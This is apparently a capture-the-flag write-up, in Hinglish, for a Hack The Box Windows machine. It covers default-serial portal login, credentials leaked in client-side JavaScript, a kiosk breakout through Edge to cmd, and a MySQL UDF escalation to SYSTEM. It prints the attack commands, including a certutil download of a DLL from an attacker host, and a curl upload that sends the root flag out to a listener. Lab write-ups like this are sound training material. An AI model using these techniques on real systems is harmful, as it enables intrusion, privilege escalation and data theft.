

# Touch

> **HTB · Windows · Easy · Rating 4.3 · Points 20** · IP `10.129.45.78` · Creator TheCyberGeek · Released 2026-10-03
> Flags: `user.txt` ✅ · `root.txt` ✅ · Solved: 2026-10-05



---

## 1. Recon

```bash
nmap -Pn -p- --min-rate 6000 -oN /tmp/touch_full.nmap 10.129.42.15
```

```text
135/tcp   open  msrpc
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
8443/tcp  open  https-alt
# baaki sab filtered — 445/3306/80/443 bahar se band
```

8443 pe **Nexion DeviceHub** management portal (kiosk device ka vendor panel). RDP/WinRM
pe turant mat jao — creds ke bina dono waste hain; portal hi seam hai.

> ⚠️ **VPN gotcha (Layover se carry-forward):** HTB CLI ka default `htb.ovpn` Arena
> server **686** hota hai. Machines release-arena par ho to `htb vpn download <server>`
> se sahi config lo, warna sab `filtered` dikhega. `htb vpn status` se verify karo.

---

## 2. Portal — serial → login → creds

**Unauthenticated status endpoint** device ka serial chhaap deta hai:

```bash
curl -sk https://$IP:8443/api/status
# {"device":"Nexion DeviceHub DH-100","serial":"NX-DH-2024-B7042",
#  "firmware":"1.4.2","status":"online","uptime":7855}
```

Login page ka hint: *"The default password is the device serial number included in your
DeviceHub packaging."* → serial hi password hai (factory-default auth):

```bash
curl -s -i -c /tmp/ck.txt -X POST -d "password=NX-DH-2024-B7042" https://$IP:8443/login
# → Set-Cookie: nxsession=...  ✓ (form POST, JSON nahi)
```

Dashboard ka **client-side JavaScript** Windows creds chhaap deta hai — server-side
koi protection nahi, bas ek `toggleCred()` "show" button:

```javascript
toggleCred('dsu1','KioskUser')   // → KioskUser
toggleCred('dsp1','K!0sk2026#')  // → K!0sk2026#
```

```text
KioskUser / K!0sk2026#   → kiosk account (RDP)
```

---

## 3. Peripherals break karo (intended path)

Badge scan karne ke liye scanner hardware chahiye — scanner/printer **band** kar do,
phir kiosk ka error dialog hi tumhe Edge tak le jayega:

```bash
CJ=/tmp/portal.cj   # login cookie
for d in scanner printer; do
  curl -s -b $CJ -X POST "https://$IP:8443/api/$d/power" \
    -H "Content-Type: application/json" -d '{"powered":false}'
done
# verify: GET /api/scanner/settings → powered:false
```

Dashboard pe yeh buttons literally `api('/api/scanner/power','POST',{powered:false})`
call karte hain — JS padhna hi kaafi tha.

---

## 4. Kiosk → Edge → user flag

RDP (`KioskUser / K!0sk2026#`) se session khulta hai — **fullscreen kiosk app**
("HTB AIRWAYS SELF CHECK-IN", `localhost:5173`), terminal nahi. Koi shell nahi,
koi Run dialog nahi: sirf check-in flow.

Flow: `LANGUAGE → LOOKUP → DOCUMENTS → SEATS → BAGGAGE → BOARDING PASS`.

- **LOOKUP dead end:** `Jenny Crawford / KS7X2M` (Layover ka carry-over reference)
  kuch nahi deta — booking lookup ka koi backend hi nahi.
- Neeche **STAFF LOGIN** button → "Staff Authentication" screen → **SCAN BADGE**.

Scanner band hone se:

```text
Nexion DocReader SR-4200 has stopped responding.
Error Code: SCN-ERR-4092 … visit the support page
→ https://support.nexionsystems.com/docreader/troubleshoot
```

Support link click → **Microsoft Edge** khul jata hai (kiosk lockdown ka pehla
bahir ka rasta). Address bar:

```text
file:///C:/Users/KioskUser/Desktop/user.txt
```

```text
976a…  ← USER FLAG  (htb machine own <flag>)
```

---

## 5. Edge → real shell (CMD)

Edge me `file:///C:/Windows/System32/cmd.exe` type karo → Edge usse **download**
karega (exe local execute allowed nahi) → **Downloads flyout** → **Open file** →
CMD window as `KioskUser`.

> Dialog spam aata rahega (scanner hardware error par `NexionDocReader.exe` crash
> loop) — pehle band karo: `taskkill /f /im NexionDocReader.exe`

ProgramData ke startup scripts me DB creds:

```bat
C:\ProgramData\HTB Airways\refresh-dates.bat
C:\ProgramData\HTB Airways\db-config.ini
```

```text
mysql -u root -pHTB@irw4ys_DB!2026     ← MySQL 8.0.42, service = SYSTEM
plugin_dir        = C:\MySQL\lib\plugin\   (KioskUser writable!)
secure_file_priv  = NULL
```

---

## 6. UDF → SYSTEM → root flag

MySQL **SYSTEM** context me chalta hai → UDF hijack = full SYSTEM.

Kali pe DLL banao (`arg_type[0] = STRING_RESULT` rakho, `_init`/`_deinit` export karo),
HTTP server se target par `certutil` se transfer:

```bash
# kali
setsid nohup python3 -m http.server 8000 -d /tmp/srv &
gcc -shared -o /tmp/srv/udf5.dll /tmp/udf.c -lwsock32

# target (CMD)
certutil -urlcache -split -f http://10.10.17.245:8000/udf5.dll C:\Users\KioskUser\Downloads\udf5.dll
```

```sql
-- cmd se (har call pe NO_BACKSLASH_ESCAPES!)
mysql -u root -pHTB@irw4ys_DB!2026 -e "SET SESSION sql_mode='NO_BACKSLASH_ESCAPES';
  CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf5.dll';
  SELECT sys_eval('whoami');"
-- 0x6E7420617574686F726974795C73797374656D0D0A = nt authority\system
```

Root flag exfil (screenshot pe chhota text padhna unreliable hai → file banao aur
HTTP se kheencho):

```sql
SELECT sys_eval('type C:\Users\Administrator\Desktop\root.txt > C:\Users\KioskUser\Downloads\out.txt 2>&1');
```

```bash
# target CMD: curl -T C:\Users\KioskUser\Downloads\out.txt http://10.10.17.245:8001/
# Kali listener /tmp/ncout → ROOT FLAG → htb machine own <flag>
```

---

## Barriers / gotchas

| # | Problem | Fix |
|---|---------|-----|
| 1 | Badge scan ka koi valid format nahi (90+ candidates dead) | Intended path hi **scanner power-off** hai, badge chahiye hi nahi |
| 2 | 445/3306/80/8443 bahar se `filtered` | Loopback-silent services — foothold ke baad `ss -tlnp`; portal bhi sirf shuru me tha |
| 3 | Kiosk app fullscreen — no shell, no Run | Peripherals off → error dialog → support link → **Edge** |
| 4 | Edge CMD execute nahi karta | `file:///…cmd.exe` → download → Downloads flyout → **Open file** |
| 5 | `ERROR 1127: Can't find symbol 'sys_exec_init'` | UDF me `<fn>_init` / `<fn>_deinit` **export** karna padta hai |
| 6 | `sys_exec('dir')` → `<empty exit=0>`, command hi nahi chala | `arg_type[0] = 2` = **INT_RESULT** (empty string); MySQL ka `STRING_RESULT = 0` |
| 7 | SQL string me `C:\A\B` → `C:AB` (backslash strip) | Har call pe `SET SESSION sql_mode='NO_BACKSLASH_ESCAPES'` |
| 8 | `system()`/`_popen` mysqld me output dete hi nahi | `CreateProcessA` + anonymous pipe (stdout+stderr), `CREATE_NO_WINDOW` |
| 9 | DLL file-lock — rebuild par overwrite fail | Har build ka naya naam: `udf.dll → udf2 → … → udf5.dll` + DROP/CREATE FUNCTION |
| 10 | Exfil listener deadlock (curl wait ↔ read-until-EOF) | `Content-Length` parse karke **pehle HTTP 200** bhejo |
| 11 | xdotool type flaky + screenshots 30-60s lag | Side-channel verify: HTTP :8000 access log + exfil file, screenshot sirf last resort |
| 12 | `pkill -f <pattern>` ne khud ko maar diya | `pkill -x` ya bracket trick `pattern[2]` |
| 13 | xfreerdp session periodik drop | Watchdog loop (`/tmp/rdpw.sh`) — cmd/server-side session zinda rehta hai |

---

## Attack chain (credentials)

| Credential | Purpose |
|---|---|
| `NX-DH-2024-B7042` (serial, `/api/status`) | DeviceHub portal login (factory default) |
| `KioskUser / K!0sk2026#` | Dashboard JS leak → RDP kiosk |
| `root / HTB@irw4ys_DB!2026` | MySQL (ProgramData scripts) → UDF → SYSTEM |

**Chain**: `/api/status → serial login → JS creds → power-off peripherals → RDP kiosk →
SCN-ERR dialog → Edge → user.txt → cmd → MySQL UDF → SYSTEM → root.txt`

---

## Lessons / Notes

- **Vendor panels ka default-auth pattern:** serial/MAC/serial-derived password +
  unauth status endpoint. `/api/status`, `/info`, `/device` type endpoints pehle maar.
- **Dashboard ka "show password" button = game over** — creds client-side JS me hain,
  server validate hi nahi karta. JS `grep` karo, UI se mat samjho.
- **Kiosk breakout ka mental model:** lockdown app bahar ka browser kholta hai jis
  bhi error/support link se → wahi `file:///` se flag/shell.
- **MySQL UDF debugging ka order:** symbol (`_init`) → arg type (`STRING_RESULT=0`) →
  backslash mode → process spawn (`CreateProcessA`+pipe) → file lock (rename) →
  exfil (HTTP 200 handshake). Ek-ek karke isolate karo.
- **Headless Windows work:** Xvfb + xfreerdp + xdotool chalta hai, par input
  reliability 100% nahi — side-channel verification (logs/files) > screenshots.
